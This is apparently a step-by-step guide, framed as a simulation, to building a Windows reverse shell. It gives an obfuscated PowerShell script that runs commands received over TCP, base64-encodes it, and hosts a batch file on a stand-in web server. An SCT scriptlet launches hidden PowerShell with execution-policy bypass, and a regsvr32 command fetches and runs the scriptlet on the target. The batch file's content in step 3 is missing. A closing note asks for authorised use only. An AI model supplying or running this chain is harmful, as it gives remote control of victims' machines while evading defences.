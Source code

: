 Step-by-Step Simulation Guide Note: Files available for adapting in repository .

1. Create the Reverse Shell PowerShell Script
Create a file named reverse_shell.ps1 with the following content:

param (
    [string]$ip,
    [int]$port
)

# Obfuscated variable names
$A = 'Get'+'Stream'
$C = [System.Text.Encoding]::'ASCII'
$b = 0..65535 | % {0}
$Q = 'System.Net.Sockets.TCPClient'
$w = 'Re'+'ad'
$O = 'Wr'+'ite'
$F = 'System.Text.ASCIIEncoding'

$client = New-Object $Q($ip, $port)
$stream = $client.$A()
while (($i = $stream.$w($b, 0, $b.Length)) -ne 0) {
    $d = (New-Object -TypeName $F).GetString($b, 0, $i)
    $S = (iex $d 2>&1 | Out-String)
    $R = $S + "PS " + (pwd).Path + "> "
    $f = $C.GetBytes($R)
    $stream.$O($f, 0, $f.Length)
    $stream.Flush()
}
$client.Close()



2. Encode the Script to Base64
Run the following PowerShell commands to encode the script:

$script = Get-Content -Path .\reverse_shell.ps1 -Raw
$bytes = [System.Text.Encoding]::Unicode.GetBytes($script)
$encoded = [Convert]::ToBase64String($bytes)
$encoded

Copy the resulting Base64 string.

3. Create the Batch File
Create a file named run_reverse_shell.bat with the following content. Replace <Base64_encoded_string> with the Base64 string you copied:

4. Host the Files on a Web Server
Upload run_reverse_shell.bat to your web server.
Ensure it is accessible, e.g., http://yourserver.com/run_reverse_shell.bat.

5. Create the SCT File
Create a file named reverse_shell.sct with the following content. Replace http://yourserver.com/run_reverse_shell.bat with the actual URL of your hosted batch file, and replace attacker_ip and attacker_port with your attacker's IP and port:
<scriptlet>
  <registration>
    <script language="JScript">
      <![CDATA[
        var shell = new ActiveXObject("WScript.Shell");
        shell.Run("cmd.exe /c powershell.exe -NoP -NonI -W Hidden -Exec Bypass -File http://yourserver.com/run_reverse_shell.bat attacker_ip attacker_port");
      ]]>
    </script>
  </registration>
</scriptlet>

Upload reverse_shell.sct to your web server.
Ensure it is accessible, e.g., http://yourserver.com/reverse_shell.sct.
6. Execute the SCT File using regsvr32
On the target machine, run the following command to execute the SCT file:

regsvr32 /s /i:http://yourserver.com/reverse_shell.sct scrobj.dll

7. Establish the Reverse Shell Connection
When the SCT file is executed, it will download and run the batch file, which will decode and execute the PowerShell script to establish a reverse shell connection to the specified IP and port.
Important Notes
Ethical Use: Ensure you have explicit permission to test systems with this script. Unauthorised use is illegal and unethical.
Controlled Environment: Use a controlled environment for testing.
Troubleshooting: Keep a non-obfuscated version of the scripts for troubleshooting and maintenance.
